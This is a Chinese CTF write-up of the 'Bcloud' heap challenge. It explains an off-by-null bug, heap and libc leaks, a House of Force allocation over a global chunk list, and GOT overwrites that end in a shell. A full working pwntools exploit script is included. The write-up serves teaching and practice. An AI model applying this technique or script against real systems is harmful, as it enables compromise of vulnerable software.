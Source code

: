 ```yaml
---
title: Bcloud
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap
- house_of_xxx
---
```

House of Force例题
<!-- more -->

32位堆题，菜单，NO PIE, Partial RELRO。

House of Force

### 主要漏洞点

在get_input函数中有个off by null的漏洞，如果刚好写入size大小的内容则会触发。

![get_input](./bcloud/get_input.jpg)

### leak heapbase

由get_input导致的问题，在input_name函数可以用来leak heapbase。对s写满0x40，则其\x00会溢出到v2的位置，在执行v2=malloc(0x40)后，这个\x00会被覆盖，因此在后面的strcpy(v2,s)的时候会将v2的chunk地址一并copy到chunk中。在后续的welcome中会输出出来。

![input_name](./bcloud/input_name.jpg)

### 改写top chunk size

在org_host函数中也有一样的问题，并且更加严重。对s写满0x40，则其\x00会溢出到v2的位置，在执行v2=malloc(0x40)后，这个\x00会被覆盖。并且由于v2后面紧接着就是v3，而v2是写满4byte的一个地址，因此在后面的strcpy(v2,s)的时候会将**s的内容+v2的chunk地址+v3中的内容**一并copy到chunk中，而chunk大小只有0x44，因此会溢出到next chunk的size字段，而**下一个chunk就是top chunk，由此可以改写top chunk size**。

![org_host](./bcloud/org_host.jpg)

### 分配到chunk_list，获取任意写

在改写了top chunk size之后，我们就可以利用House of Force实现**任意地址分配**了，之后我们考虑怎么利用这个任意地址分配。

edit函数的功能是对chunk的content进行修改，其中取chunk是从bss段的chunk_list中按照id取出的，因此如果能够**改写chunk_list中的内容**，那么就可以实现**任意写**。

要分配到chunk_list(0x804b120)，可以分配fake chunk(0x804b118)。我们要计算top chunk和fake chunk之间的偏移。top chunk的地址可以通过heapbase+offset计算得到。top chunk和fake chunk之间的偏移是 **-(top chunk - fake chunk)或0x10804b118-top chunk** 。malloc了这个大小的chunk后，下次malloc就能malloc到fake chunk了。

### leak libc

本题中没有edit函数，没办法输出。但是我们有任意写，可以**改写其他函数的GOT表项来调用函数输出**。

此处可以改写delete功能中free函数的GOT表项为puts，再将chunk_list中对应的位置改为atoi的GOT表项的地址，就可以得到libcbase。

### get shell

get shell也是采用修改GOT表项的方法，将atoi的GOT表项修改为system，输入/bin/sh\x00即可get shell。需要注意的是free了的id对应的chunk_list[id]和length_list[id]都会清0，虽然chunk_list[id]可以在我们申请到的fake chunk中修改，但length_list我们没有申请到，因此不能直接edit。



exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='i386')
elf=ELF("./pwn2")
libc=ELF("./libc.so.6")
p=process("./pwn2")

def add(length,content):
	p.recvuntil('--->>\n')
	p.sendline('1')
	p.recvuntil('Input the length of the note content:\n')
	p.sendline(str(length))
	p.recvuntil('Input the content:\n')
	p.sendline(str(content))

def edit(Id,content):
	p.recvuntil('--->>\n')
	p.sendline('3')
	p.recvuntil('Input the id:\n')
	p.sendline(str(Id))
	p.recvuntil('Input the new content:\n')
	p.sendline(str(content))

def free(Id):
	p.recvuntil('--->>\n')
	p.sendline('4')
	p.recvuntil('Input the id:\n')
	p.sendline(str(Id))



def debug():
	gdb.attach(p,'x/8wx 0x804b120')
	pause()

#leak heap base
p.recvuntil("Input your name:\n")
p.send('a'*0x40)
p.recvuntil('a'*0x40)
heapbase=u32(p.recvuntil('!')[:-1].ljust(4,'\x00'))-0x8
print("[*]heapbase: {:}".format(hex(heapbase)))

#overwrite top chunk size
p.recvuntil('Org:\n')
p.send('a'*0x40)
p.recvuntil('Host:\n')#overwrite
payload=p32(0xffffffff)+'a'*0x3c
p.send(payload)

#overwrite chunk_list
chunk_list=0x0804B120
fake_chunk=0x0804B118
top_chunk=heapbase+0xf8

add(0x10,'aaaa')
add(-(top_chunk-fake_chunk),'bbbb')
add(0x30,'cccc')#chunk_list[2]->chunk_list

#leak libc
edit(2,p32(elf.got['free'])+p32(elf.got['atoi'])+p32(elf.got['atoi']))
edit(0,p32(elf.sym['puts']))#overwrite free@got to puts@plt 

free(1)

atoi_addr=u32(p.recv(4))
libcbase=atoi_addr-libc.sym['atoi']
print("[*]libcbase: {:}".format(hex(libcbase)))




#get shell
#overwrite atoi@got to system
print(hex(libcbase+libc.sym['system']))
#debug()
edit(2,p32(libcbase+libc.sym['system']))


p.sendline('/bin/sh\x00')

p.interactive()
```